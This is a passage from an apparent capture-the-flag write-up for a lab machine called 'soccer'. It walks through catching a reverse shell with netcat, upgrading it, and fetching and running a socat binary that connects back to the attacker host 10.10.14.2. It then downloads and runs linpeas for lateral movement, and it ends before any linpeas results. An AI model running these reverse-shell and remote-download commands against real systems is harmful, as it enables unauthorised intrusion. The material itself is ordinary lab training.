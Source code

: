- We put our ip and port in it
- We set up a listener `rlwrap nc -lvp 4444`
- We need to upload it here `/var/www/html/tiny/uploads` as it is writable.
- Once downloaded we can click on the little link icon
![reverse](../.res/2022-12-23-08-53-23.png)  
- And we get our shell
![shell](../.res/2022-12-23-08-55-20.png)
- If we ls on /home we can find a user player 
- Let's upgrade our shell `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- Here are some infos about the target

```bash
uname -a
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

To get an even better shell we can take a socat binary
- `wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat` from your kali
- Then we put on our python web server `python3 -m http.server 80`
- We also set up a listener with socat

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4445
```

- Then we go to a writable directory (/tmp will do the trick) `wget http://10.10.14.2/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.2:4445`. And we are good to go.

## Lateral movement

- Let's get linpeas in our target
  - `wget https://github.com/carlospolop/PEASS-ng/releases/download/20221218/linpeas_linux_amd64` in our kali
  - `wget http://10.10.14.2/linpeas_linux_amd64`
  - `chmod +x linpeas_linux_amd64`
  - `./linpeas_linux_amd64`

### Linepeas

- Interesting output to investigate
